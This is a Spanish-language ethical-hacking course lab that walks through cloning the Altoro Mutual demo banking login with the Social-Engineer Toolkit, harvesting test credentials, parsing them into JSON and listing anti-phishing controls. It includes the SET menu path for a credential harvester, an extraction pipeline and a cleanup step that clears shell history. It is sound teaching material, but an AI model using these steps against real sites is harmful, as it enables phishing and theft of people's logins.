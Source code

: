 # Laboratorio Semana 11 - Ingeniería social mediante clonación y captura de credenciales en Kali Linux - (CY-203 Hackeo Ético)

---

## 1. Objetivos
1. Clonar el portal de demostración `http://demo.testfire.net/login.jsp` que simula la banca en línea de Altoro Mutual.  
2. Ajustar el formulario para que envíe las credenciales al servidor local.  
3. Capturar credenciales de prueba y almacenarlas en `creds.json`.  
4. Generar un informe en `informe_final.json` y proponer controles defensivos.

---

## 2. Requisitos técnicos  
| Componente | Versión mínima | Verificación |
|------------|----------------|--------------|
| Kali Linux | 2025.2 | `cat /etc/os-release` |
| Python | 3.11 | `python3 --version` |
| Social Engineer Toolkit (SET) | 9.1 | `setoolkit --version` |
| Apache | 2.4 | `apache2 -v` |
| jq | 1.7 | `jq --version` |

---

## 3. Preparación del entorno
```bash
sudo apt update && sudo apt -y full-upgrade
sudo apt -y install apache2 jq
sudo systemctl enable --now apache2
mkdir -p ~/week11_phish && cd ~/week11_phish
```
---

## 4. Clonado del sitio con SET
```text
1. sudo setoolkit
2. 1 Social Engineering Attacks
3. 2 Website Attack Vectors
4. 3 Credential Harvester
5. 2 Site Cloner
6. URL objetivo: https://demo.testfire.net
7. IP de Kali cuando se solicite (consulta con: ip -br addr)
```
Los archivos clonados se almacenan usualmente en `/var/www/html`.

---

## 5. Ejecución del harvester
```bash
sudo systemctl stop apache2        # libera el puerto 80
# SET mostrará: Credential Harvester is running on port 80
# Desde la víctima visita http://IP_Kali/login.jsp y envía credenciales de prueba
```
---

## 6. Reporte de SET
```bash
sudo ls -l /root/.set/reports
# Ejemplo de archivo:
# /root/.set/reports/2025-07-21 17:40:52.546938.xml
```
---

## 7. Extracción de credenciales a JSON
```bash
sudo cp '/root/.set/reports/2025-07-21 17:40:52.546938.xml' ~/week11_phish/report.xml
sudo chown $USER:$USER ~/week11_phish/report.xml
cd ~/week11_phish

grep -Eo '(uid|username)=[^&]+&(passw|password)=[^<]+' report.xml | \
awk -F'[=&]' '{u=($1~/uid|username/)?$2:$4; p=($3~/passw|password/)?$4:$2; print "{\"user\":\""u"\",\"pass\":\""p"\"}"}' | \
jq -s '.' > creds.json
```
---

## 8. Informe final
Create `informe_final.json`:
```json
{
  "victims": 3,
  "site_cloned": "https://demo.testfire.net",
  "credentials_file": "creds.json",
  "attack_vector": "Correo de alerta de transacción",
  "timestamp": "2025-07-21T17:00:00-06:00"
}
```
---

## 9. Controles defensivos sugeridos
* Activar autenticación de dos factores en la banca en línea.  
* Configurar SPF, DKIM y DMARC para evitar suplantación de correos.  
* Sensibilizar a los usuarios sobre la verificación del dominio y el candado TLS.  
* Bloquear dominios recién registrados desde el gateway de correo.

---

## 10. Limpieza
```bash
sudo pkill -f setoolkit
sudo systemctl start apache2
sudo rm -rf /var/www/html/*
history -c
```

 - ---

**Profesor:** Esteban Mata Morales  
**Curso:** CY-203 Hackeo Ético  
**Universidad Fidélitas de Costa Rica**
